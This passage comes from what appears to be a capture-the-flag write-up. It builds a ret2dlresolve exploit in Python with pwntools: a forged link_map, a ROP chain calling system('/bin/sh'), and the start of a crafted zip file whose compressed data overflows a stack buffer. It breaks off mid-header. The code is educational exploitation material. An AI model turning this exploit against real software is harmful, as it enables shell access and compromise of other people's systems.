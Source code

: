 ```python
    ]),

    # DT_JMPREL
    0x18: flat([
        # normally this points to the real GOT, now we need an area to read/write.
        forge_area - l_addr,  # rela->r_offset
        7,  # rela->r_info, 7>>32=0, points to index 0 of .symtab
        0  # # rela->r_addend
    ]),

    # DT_STRTAB
    0x48: b'/bin/sh\00',
})
```

### Make ROP chain

The ROP chain would be relatively simple.

1. read the `forge_data` into `.bss + 0x100`
2. call `_dl_runtime_resolve` with the parameters and put `rel_offset`
   and `link_map` on stack
3. align the stack if needed

```python
rop = ROP([elf])

# bypass push link_map by adding 0x6 offset
resolver = elf.get_section_by_name(".plt")["sh_addr"] + 0x6

rop.read(0, forge_area, len(forge_data))  # read the link_map
rop.raw(rop.ret)  # align stack to 0x10 to call system successfully
rop.call(resolver, [forge_area + 0x48])  # call system("/bin/sh")
rop.raw(forge_area)  # link_map
rop.raw(0)  # rel_offset
```

### Construct zip file

Recall the zip file structure from above. Just need to be careful enough and
follow the file structure, we can make a zip file with our ROP chain. The local
buffer on `parse_data` stack is located at `rbp - 0xa0`, so we need 0xa8 bytes
in compressed data to trigger the buffer overflow.

```python
PH = b'A'  # place holder

# Make compressed data
comp_data = PH * 0xa8
comp_data += rop.chain()

# 1. Make local file header
comp_size = len(comp_data)
len_file_name = 8  # for easier alignment
len_extra_field = 0
len_comment = 0

LFH = p32(0x04034b50)
LFH += PH * 14
LFH += p32(comp_size)  # Compressed size
LFH += PH * 4
LFH += p16(len_file_name)  # length file name
LFH += p16(len_extra_field)  # length of extra field
LFH += PH * len_file_name  # file name
LFH += PH * len_extra_field  # extra field
```